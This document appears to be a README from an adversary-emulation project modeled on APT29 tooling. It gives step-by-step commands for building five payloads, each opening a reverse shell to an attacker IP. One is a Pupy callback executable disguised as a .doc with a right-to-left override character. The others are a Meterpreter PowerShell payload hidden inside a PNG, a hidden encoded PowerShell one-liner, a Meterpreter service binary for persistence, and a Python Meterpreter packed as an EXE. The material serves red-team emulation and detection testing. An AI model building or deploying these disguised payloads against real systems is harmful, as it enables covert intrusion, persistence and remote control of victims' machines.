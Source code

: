 ### Create Day 1 Payloads


#### 1. CosmicDuke Payload (cod.3aka3.scr)

| Filename | Location | Description |
| ------ | ------ | ------ |
| cod.3aka3.scr | payloads/cod.3aka3.scr | Portable executable that uses right-to-left override character to disguise file extension |


1. Generate a Pupy-EC4 callback payload:

```
gen -o cod.3aka3.scr -f client -O windows -A x64 connect -t ec4 --host <attacker IP>:1234
```

2. On Windows attack platform, rename cod.3aka3.scr with right-to-left override character (https://redcanary.com/blog/right-to-left-override/)
  
    1. Windows key and type 'Character Map'; select open
    2. Scroll to the RTLO character (U+202E)
    3. Select the RTLO character, then click "select", then click "copy"
    4. Right click `cod.3aka3.scr`, then click "Rename"
    5. Move cursor to beginning of filename. Press "ctrl-v" to paste RTLO character, and hit "enter" to save the rename.
    6. The file should now be named "rcs.3aka3.doc"

![alt text](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/041515_2317_SpoofUsingR1.png)

Screenshot taken from: https://resources.infosecinstitute.com/spoof-using-right-to-left-override-rtlo-technique-2/


#### 2. Privilege Escalation Payload (monkey.png)

| Filename | Location | Description |
| ------ | ------ | ------ |
| monkey.png | payloads/monkey.png | Well formed PNG with embedded PowerShell-Meterpreter callback |

Steps to re-create:
1. Generate a PowerShell-formatted Meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh -o meterpreter.ps1
```

2. Transfer meterpreter.ps1 to Windows attack platform; embed meterpreter.ps1 into a PNG file using Invoke-PSImage (https://github.com/peewpw/Invoke-PSImage):

```
Import-Module .\Invoke-PSImage.ps1
```

```
Invoke-PSImage -Script .\meterpreter.ps1 -Out .\monkey.png -Image .\monkey.jpg
```

#### 3. Startup Folder Payload (strings64/hostui.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| strings64.exe | payloads/SysinternalsSuite/strings64.exe | Launches Meterpreter using CreateProcessWithToken API call 
1. Generate PowerShell-formatted Meterpreter:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh-cmd
```

2. Copy the PowerShell 1-liner to clipboard. Your clipboard should look like: 

`powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa=`

Do **not** copy the execution preamble (`%COMSPEC% /b /c start /b /min`)

3. Open `payloads/readme.txt`; paste the PowerShell-Meterpreter blog on line `816`. This line should look like:

`$javasvc = "powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa="`

#### 4. Persistent Service Payload (javamtsup.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| javamtsup.exe | payloads/SysinternalsSuite/javamtsup.exe | Reverse HTTPS Meterpreter service executable |

1. Generate a Meterpreter service-binary:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 -f exe-service -o javamtsup.exe
```

#### 5. SeaDuke Payload (python.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| python.exe | payloads/Seaduke/python.exe | Python Meterpreter compiled to EXE with PyInstaller |

1. Generate python-formatted Meterpreter:

```
msfvenom -p python/meterpreter/reverse_https LHOST=<attacker IP> LPORT=8443 -o python.py
```

2. Transfer python.py to Windows attack platform

3. Compile python.py into a portable executable using PyInstaller (https://pypi.org/project/PyInstaller/)

```
pyinstaller -F python.py --upx --brute python.exe
```
